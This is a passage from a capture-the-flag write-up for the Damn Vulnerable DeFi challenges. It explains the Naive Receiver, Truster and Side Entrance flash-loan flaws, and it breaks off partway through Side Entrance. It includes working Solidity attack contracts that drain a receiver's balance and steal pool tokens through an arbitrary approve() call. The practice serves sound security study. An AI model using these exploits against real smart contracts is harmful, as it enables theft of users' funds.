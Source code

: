 To solve this challenge in a single transaction we can deploy a contract that repeatedly takes flash loans on the user contract's behalf until its balance is less than the flash loan fee.

```solidity
function attack(
    INaiveReceiverLenderPool pool,
    address payable receiver
) public {
    uint256 FIXED_FEE = pool.fixedFee();
    while (receiver.balance >= FIXED_FEE) {
        pool.flashLoan(receiver, 0);
    }
}
```

## 3. Truster

This challenge involves another flash loan contract offering loans for the DVT token. The goal is to steal them.
The flash loan contract accepts a custom function to call and a payload as its argument. This allows us to call any contract function on the flash loan contract's behalf which can be exploited.
First, we take a flash loan of `0` tokens (such that no repayment is required) and pass the token's `approve` function as arguments with a payload that approves our attacker to withdraw all funds in a subsequent transaction.
This works because the context under which `approve` is executed is the flash loan contract because it is the one calling it.

Again, we can write a custom contract that combines both steps in a single function/transaction.

```solidity
function attack(IERC20 token, ITrusterLenderPool pool, address attackerEOA)
    public
{
    uint256 poolBalance = token.balanceOf(address(pool));
    // IERC20::approve(address spender, uint256 amount)
    // flashloan executes "target.call(data);", approve our contract to withdraw all liquidity
    bytes memory approvePayload = abi.encodeWithSignature("approve(address,uint256)", address(this), poolBalance);
    pool.flashLoan(0, attackerEOA, address(token), approvePayload);

    // once approved, use transferFrom to withdraw all pool liquidity
    token.transferFrom(address(pool), attackerEOA, poolBalance);
}
```

## 4. Side entrance

This time the flash loan contract has an integrated accounting system (`balances` storage variable) that allows anyone to deposit and withdraw their liquidity.
The issue is that, when taking a flash loan, the contract only checks if the contract's _token_ balance has not decreased - but the accounting system is ignored.
We can take a flash loan and in the callback deposit the funds again which will credit our attacker with the same balance.
The flash loan check passes as the tokens are still in the flash loan contract because of the deposit.
Afterwards, we can withdraw the funds.
